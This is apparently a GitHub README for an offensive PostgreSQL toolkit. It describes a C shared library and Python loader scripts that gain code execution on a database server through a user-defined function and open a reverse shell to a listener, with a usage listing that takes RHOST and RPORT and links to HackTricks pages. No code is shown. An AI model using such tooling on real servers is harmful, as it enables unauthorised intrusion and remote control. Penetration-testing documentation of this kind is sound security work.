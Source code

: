 # psql_UDF

This repo includes 4 files:

  pg_exec.c  (file for creating .so, you should use docker with a compatible version of postgresql)

  psql_so_loader_auto.py (script to load .so lib on the postgresql server if you have rights)

  psql_so_loader_auto_v2.py (the same script but with socket server for reverse shell)

  server_for_pg.py (just alone socket server for reverse shell)




Thanks a lot those people:

  https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions

  https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/big-binary-files-upload-postgresql

  https://github.com/nixawk/pentest-wiki/blob/master/2.Vulnerability-Assessment/Database-Assessment/postgresql/postgresql_hacking.md

  https://gist.github.com/0xabe-io/916cf3af33d1c0592a90

  https://xakep.ru/2020/04/14/python-reverse-shell/#toc03.1




USAGE:

python psql_so_loader_auto_v2.py [-h] [-p PASSWORD] [-u USERNAME] [-d DATABASE] [-H HOSTNAME] [-P PORT] [-rh RHOST] [-rp RPORT] -f FILENAME

options:
 
    -h, --help            show this help message and exit
 
    -p PASSWORD, --password PASSWORD
                        pass for postgresql
 
    -u USERNAME, --username USERNAME
                        user for postgresql
 
    -d DATABASE, --database DATABASE
                        database for postgresql
 
    -H HOSTNAME, --hostname HOSTNAME
                        hostname or IP for postgresql
 
    -P PORT, --port PORT  database for postgresql
 
    -rh RHOST, --rhost RHOST
                        ip of host listen reverse
 
    -rp RPORT, --rport RPORT
                        port of host listen reverse
 
    -f FILENAME, --filename FILENAME
                        file name of lib.so

